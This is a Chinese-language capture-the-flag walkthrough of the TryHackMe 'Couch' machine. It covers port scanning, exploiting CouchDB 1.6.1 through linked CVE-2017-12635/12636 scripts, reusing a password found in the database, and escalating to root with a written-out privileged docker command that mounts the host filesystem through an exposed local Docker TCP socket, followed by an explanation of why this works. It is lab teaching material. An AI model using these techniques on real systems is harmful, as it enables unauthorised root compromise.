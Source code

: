 ```yaml
---
sidebar_position: 55
tags: [Easy, Linux, CouchDB, 信息泄露, docker]
title: Couch
description: Couch
sidebar_label: Couch
slug: /tryhackme/55
---
```

# Couch
## 端口扫描
```bash
root@ip-10-10-149-225:~/couch# nmap -sTCV -p 22,5984 --min-rate 1000 10.10.113.174

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-31 10:35 BST
Nmap scan report for ip-10-10-113-174.eu-west-1.compute.internal (10.10.113.174)
Host is up (0.00012s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (EdDSA)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 02:0F:DD:DC:9D:F1 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
```
## 5984
![20240702213142](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213142.png)

访问该端口进行目录扫描但是因为字典选错的原因, 并没有扫除任何东西, 所以就不贴出了,结合端口扫描内容以及页面显示可以确定服务是:  `CouchDB/1.6.1`, 然后经过谷歌, 我发现了利用的漏洞
- [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.zh-cn.md)
- [Couchdb 任意命令执行漏洞（CVE-2017-12636）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/README.zh-cn.md)

## 后渗透
### couchdb
利用上面的两个漏洞, 我可以获取到一个反向 Shell, 利用脚本 [CVE-2017-12636](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py)

![20240702213311](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213311.png)

### couchdb —> atena
在获取到 couchdb 的 Shell 后我一直在找可以横向移动的点, 但是一直没有踪迹, 我注意到 5984 是一个数据库服务器, 那里可能有密码存在, 最终我发现了用户的密码

![20240702213345](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213345.png)

使用这个密码我成功获取到了 atena 的权限

![20240702213356](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213356.png)

### atena --> root
我发现用户 atena 的历史文件是存在内容的, 所以进行了查看发现了一条比较特殊的命令

![20240702213412](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213412.png)

![20240702213419](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213419.png)

然后我执行了该命令发现可以进入到 docker 环境中, 从而完成提权操作, 注意此时我们是将系统根目录挂载到容器的 /mnt 下, 所以我们需要去 /mnt/root 下查看root.txt

```bash
atena@ubuntu:~$ id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
atena@ubuntu:~$ docker images
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get http://%2Fvar%2Frun%2Fdocker.sock/v1.39/images/json: dial unix /var/run/docker.sock: connect: permission denied
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

## 疑问
```bash
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
atena@ubuntu:~$ id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
atena@ubuntu:~$ docker images
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get http://%2Fvar%2Frun%2Fdocker.sock/v1.39/images/json: dial unix /var/run/docker.sock: connect: permission denied
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

从上面可以看出这个 atena 用户不是 docker 组用户而且没有特权, 但是在我执行 docker images的时候报出没有权限, 但是在我执行提权命令的时候却可以, 

我们首先来了解一下我们执行的命令:

```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

- docker -H 127.0.0.1:2375: 使用指定的主机地址和端口连接到本地 Docker 守护进程。在这种情况下，使用 IP 地址 127.0.0.1 和端口 2375 连接到本地 Docker 守护进程。
- run: 命令用于在新的容器中运行一个命令。
- --rm: 在容器退出后自动删除容器。
- -it: 以交互模式运行容器，允许你与容器进行交互。
- --privileged: 以特权模式运行容器，即容器内的进程拥有对主机系统的完全访问权限。
- --net=host: 让容器与主机共享网络命名空间，使容器能够访问主机的网络接口和端口。
- -v /:/mnt: 将主机的根目录挂载到容器的 /mnt 目录，即将主机的根文件系统作为容器内的挂载点。

从这里我们可以看出这是连接本地 Docker 的守护进程, 接着查看后台进程我发现

![20240702213450](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702213450.png)

`/usr/bin/dockerd -H=fd:// -H=tcp://127.0.0.1:2375` 是在命令行中启动 Docker 守护进程的命令，并指定了一些参数。

解释如下：

- `/usr/bin/dockerd`: 这是 Docker 守护进程的可执行文件路径。通常情况下，它在 `/usr/bin/` 目录下。
- `H=fd://`: 这个选项指定 Docker 守护进程通过文件描述符（file descriptor）的方式进行通信。它表示使用与 Docker 客户端之间的标准输入输出（stdin/stdout）来进行通信。这种配置通常用于与 Docker 客户端在同一主机上的情况。
- `H=tcp://127.0.0.1:2375`: 这个选项指定 Docker 守护进程通过 TCP 进行通信，并绑定到本地主机的 IP 地址 `127.0.0.1` 和端口 `2375`。这意味着 Docker 守护进程将通过 TCP 监听来自本地主机的连接请求，允许 Docker 客户端连接到守护进程进行远程管理操作。

通过上述命令，Docker 守护进程将同时支持通过文件描述符和 TCP 进行通信，使得可以在同一主机上通过标准输入输出或远程 TCP 连接来管理 Docker。